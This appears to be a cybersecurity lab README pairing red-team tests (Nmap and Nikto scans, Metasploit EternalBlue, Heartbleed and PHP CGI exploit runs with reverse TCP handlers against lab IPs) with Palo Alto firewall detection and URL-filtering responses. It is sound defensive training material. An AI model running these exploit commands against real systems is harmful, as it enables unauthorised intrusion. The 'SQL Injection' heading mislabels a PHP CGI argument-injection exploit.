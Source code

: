 Red Test: Nmap against DMZ and Windows Server

### Set up alert in a Palo Alto firewall for detecting and responding to Nmap scans

**Blue Response**

- **Create a Security Profile**
  - In Objects > Security Profiles > Vulnerability Protection.
  - Add a New Profile named Nmap_Scan_Detection.
  - Added Signature Exceptions for Nmap Detection:
    - Selected multiple Nmap related signatures.
    - Set the Action to Block for each of these signatures.
  - Ensure that logging is enabled for the new security policy rule.
- **Verify and Tested**
  - Checked that Monitor > Logs > Threat to review the alerts generated by Nmap scan detections.
    
[[https://github.com/Reenhaider/2024CyberProject/blob/main/img/Firewall-nmap-alert.PNG|alt=octocat]]
---


## Red Test: Attempt to block access to potentially malicious websites

**Website:** Malicious websites (hacker9.org)

- **Description:** Attempt to access hacker9.org

**Steps to Test:**

1. Update Block Lists: Ensure firewall is using up-to-date threat intelligence feeds and URL categories.
2. Configure URL Filtering: Set up URL filtering rules to block categories like malware, phishing, and suspicious sites.
3. Enable Logging: Make sure logging is enabled for blocked attempts to access malicious sites.
4. Select Test URLs: Choose URLs such as hacker9.org.
5. Perform Tests: Try accessing the selected test URLs from a client within the network.
6. Check Logs: Verify that the access attempts are logged and blocked by your firewall.

**Blue Response**

- **Firewall Configuration**
  - URL Filtering: Configured Palo Alto firewall's URL filtering settings are configured to block access to categories of sites that are considered risky or inappropriate.
  - Threat Prevention: Enable threat prevention features to block known malicious IP addresses and domains.
  - SSL Decryption: Implement SSL decryption to inspect HTTPS traffic for malicious content.

---

## Red Test: Nikto against DMZ Server

**Typical Nikto Scan Activities**

- **Banner Grabbing:**
  - Identifies the version of the web server (Apache) and other software components.
- **Vulnerability Checks:**
  - Scans for known vulnerabilities in the Apache web server, PHP, MySQL, and any web applications running on the server.
  - Looks for outdated software versions with known exploits.
- **Configuration Issues:**
  - Identifies misconfigurations such as directory indexing, enabled HTTP methods (like PUT, DELETE), and default files (e.g., index.php, index.html).
- **Sensitive File Detection:**
  - Searches for sensitive files and directories, such as configuration files (phpinfo.php, .htaccess), backup files (.bak, .old), and temporary files.
- **Common Web Application Vulnerabilities:**
  - Tests for vulnerabilities such as SQL injection, Cross-Site Scripting (XSS), Cross-Site Request Forgery (CSRF), and Local File Inclusion (LFI).
- **SSL/TLS Vulnerabilities:**
  - Checks for weak SSL/TLS configurations and vulnerabilities.

### Set up alert in a Palo Alto firewall for detecting and responding to Nikto scans

**Blue Response**

- **Create a Security Profile**
  - In Objects > Security Profiles > Vulnerability Protection.
  - Add a New Profile named Nikto_Scan_Detection.
  - Added Signature Exceptions for Nikto Detection:
    - Selected any Nikto related signatures.
    - Set the Action to Block for each of these signatures.
  - Ensure that logging is enabled for the new security policy rule.
- **Verify and Tested**
  - Checked that Monitor > Logs > Threat to review the alerts generated by Nmap scan detections.

---

## Red tests using Metasploit CLI and selected payloads

### Eternal Blue

msf6 exploit(windows/smb/ms17_010_eternalblue) > run
[*] Started reverse TCP handler on 192.168.100.200:4444
[*] 192.168.50.100:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[-] 192.168.50.100:445 - Rex::ConnectionRefused: The connection was refused by the remote host (192.168.50.100:445).
[*] 192.168.50.100:445 - Scanned 1 of 1 hosts (100% complete)
[-] 192.168.50.100:445 - The target is not vulnerable.
[*] Exploit completed, but no session was created.

### Heartbleed

msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > back
msf6 > use auxiliary/scanner/ssl/openssl_heartbleed
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > set RHOSTS 192.168.50.100
RHOSTS => 192.168.50.100
msf6 auxiliary(scanner/ssl/openssl_heartbleed) > run
[*] 192.168.50.100:443 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

### SQL Injection

msf6 exploit(multi/http/php_cgi_arg_injection) > set RHOSTS 192.168.50.100
RHOSTS => 192.168.50.100
msf6 exploit(multi/http/php_cgi_arg_injection) > run
[*] Started reverse TCP handler on 192.168.100.200:4444
[*] Exploit completed, but no session was created.

msf6 exploit(multi/http/php_cgi_arg_injection) >
